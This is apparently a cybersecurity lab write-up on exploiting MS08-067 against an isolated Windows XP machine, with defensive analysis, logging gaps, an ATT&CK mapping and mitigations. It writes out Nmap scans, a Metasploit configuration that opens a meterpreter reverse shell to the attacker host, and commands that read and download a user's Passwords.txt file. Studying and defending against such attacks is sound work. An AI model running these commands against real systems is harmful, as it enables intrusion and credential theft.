


# MS08-067 Legacy Exploitation Case Study

## Lab Overview
The exploit simulates a real-world exploitation scenario in a legacy Windows XP environment that was vulnerable to MS08-067 (CVE-2008-4250). The intent was to demonstrate the risk of outdated systems and ascertain detection visibility from the SOC analyst's perspective.
The exercise demonstrates:

    Vulnerability scanning with Nmap

    Exploitation using Metasploit

    Post-exploitation actions (file exfiltration)

    Defensive shortcomings in legacy systems

Key Findings:
- ⚠️ System compromise within minutes
- ⚠️ Zero detection events prompted by Windows XP
- ⚠️ Immediate need for network segmentation and patching

## 🧪 Lab Setup
Isolated host-only network with static IPs (DHCP disabled to prevent IP conflicts)

### Network Configuration

| Action                   | IP Address           |Role      |
|--------------------------|----------------------|----------|
| Kali                     |  192.168.1.183       | Attacker |
| Windows XP               | 192.168.1.201        | Target   |


**Kali IP Setup**


**Windows XP IP Setup**


## Critical Step
Disabled Windows Firewall
<!-- XP firewall disabled -->
## Attack Workflow

### 1. 🔍 Reconnaissance

Host Discovery

``` bash
sudo nmap -sS -p- 192.168.1.0/24
```




Vulnerability Verification

```bash
nmap -p 445 --script smb-vuln-ms08-067 192.168.1.201
```


---

### 2. 💥 Exploitation
- Launch Metasploit Framework

```bash
msfconsole
```


- Configure Exploit Parameters

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.1.201
set LHOST 192.168.1.183
set RPORT 445
exploit
```


**Meterpreter Session Opened**


### 3. Post-Exploitation
- Manual Enumeration


- Credential Access
```bash
cd C:\Documents and Settings\John\My Documents
dir
```


- File Viewing & Exfiltration
```bash
type "Passwords.txt"
```


```bash
download "C:\Documents and Settings\John\My Documents\Passwords.txt"
```


**Password file on Kali**


---

# 📉 Defensive Analysis

Windows XP Event Log Review
``` bash
eventvwr.msc
```


*Zero events for: exploit execution, reverse shell, or file access*

# What *Should* Have Been Logged

| Action                    | Expected Log/Event (Sysmon)                |
|--------------------------|---------------------------------------------|
| Exploit Execution        | Exploit payload, Event ID 1                 |
| Reverse shell            | New process creation, outbound TCP, Event ID 3|
| File access              | Security Log: Event ID 4663 (File Read)     |
---

## 🧩 MITRE ATT&CK Mapping

| Tactic             | Technique ID                           |  Technique Name                        | Observed Activity            |
|--------------------|----------------------------------------|----------------------------------------|------------------------------|
| Reconnaissance     | T1595.002                              | Scanning: Vulnerability Scanning       | Nmap smb-vuln-ms08-067 script|
| Initial Access     | T1190                                  | Exploit Public-Facing Application      | MS08-067 via SMB port 445    |
| Execution          | T1059.003                              | Windows Command Shell                  | cmd.exe via meterpreter      |
| Priv Escalation    | T1068                                  | Exploitation for Privilege Escalation  | ms08_067_netapi grants SYSTEM|
| Discovery          | T1083                                  | File & Directory Discovery             | dir C:\Documents and Settings|
| Collection         | T1005                                  |	Data from Local System                 | Accessing Passwords.txt      |
| Exfiltration       | T1041                                  | Exfiltration Over C2 Channel           | File download via meterpreter|

---

## 🔒 Mitigations & Recommendations

Patch Management

    Apply MS08-067 patch (KB958644) immediately
    Implement monthly patch cycles

Network Controls

    Block SMBv1 at network perimeter
    Segment legacy systems into isolated VLANs
    
Logging & Monitoring

    Enable basic auditing on legacy systems:
    Deploy network IDS with rules for SMB exploits:

Endpoint Hardening

    Disable SMBv1 via registry:
    Apply least-privilege principles to user accounts
---

# Lessons Learned

    Legacy systems are pivot points - Unpatched XP allowed full network compromise

    Visibility gaps provide an entry point - Zero logs = zero detection windows

    Compensating controls must be used - Network segmentation limits blast radius

    Modern EDR can't protect unsupported OSes - Active asset management is non-negotiable

    "This lab demonstrates that vulnerabilities discovered 15+ years ago remain catastrophically dangerous when core security hygiene is bypassed."
---
